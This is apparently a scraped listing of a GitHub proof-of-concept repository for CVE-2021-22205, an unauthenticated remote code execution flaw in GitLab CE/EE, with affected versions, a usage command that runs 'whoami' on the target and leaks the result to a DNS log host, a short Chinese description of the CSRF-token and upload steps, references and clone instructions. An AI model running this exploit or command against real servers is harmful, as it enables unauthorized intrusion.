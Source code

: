 # CVE-2021-22205

CVE-2021-22205 Unauthorized RCE

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/r0eXpeR](https://github.com/r0eXpeR) |
| Url      | [https://github.com/r0eXpeR/CVE-2021-22205](https://github.com/r0eXpeR/CVE-2021-22205)                                               |
| Stars    | 71                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-22205

**影响版本：**
* Gitlab CE/EE < 13.10.3
* Gitlab CE/EE < 13.9.6
* Gitlab CE/EE < 13.8.8

**Usage**

```
python3 CVE-2021-22205.py target "curl \`whoami\`.dnslog"
```

![Xnip2021-10-28_21-54-04](media/16354286989629/Xnip2021-10-28_21-54-04.png)

**获取csrf-token：**

![Xnip2021-10-28_21-44-31](media/16354286989629/Xnip2021-10-28_21-44-31.png)

通过 /users/sign_in 获取csrf-token 然后使用前面的 CVE-2021-22205 poc 进行构造上传包进行执行未经身份验证的上传请求，最终rce

![](media/16354286989629/16354299891310.jpg)


![Xnip2021-10-28_21-43-13](media/16354286989629/Xnip2021-10-28_21-43-13.png)


**ref:**

* https://hackerone.com/reports/1154542
* https://security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild/
* https://forum.ywhack.com/viewthread.php?tid=115611
* https://forum.ywhack.com/viewthread.php?tid=116706
* https://github.com/RedTeamWing/CVE-2021-22205



## Get the content

```
git clone https://github.com/r0eXpeR/CVE-2021-22205
cd CVE-2021-22205
```

{% embed url="https://github.com/r0eXpeR/CVE-2021-22205" %}

<figure><img src="https://avatars.githubusercontent.com/u/46040186?v=4" alt=""><figcaption><p>r0eXpeR</p></figcaption></figure>
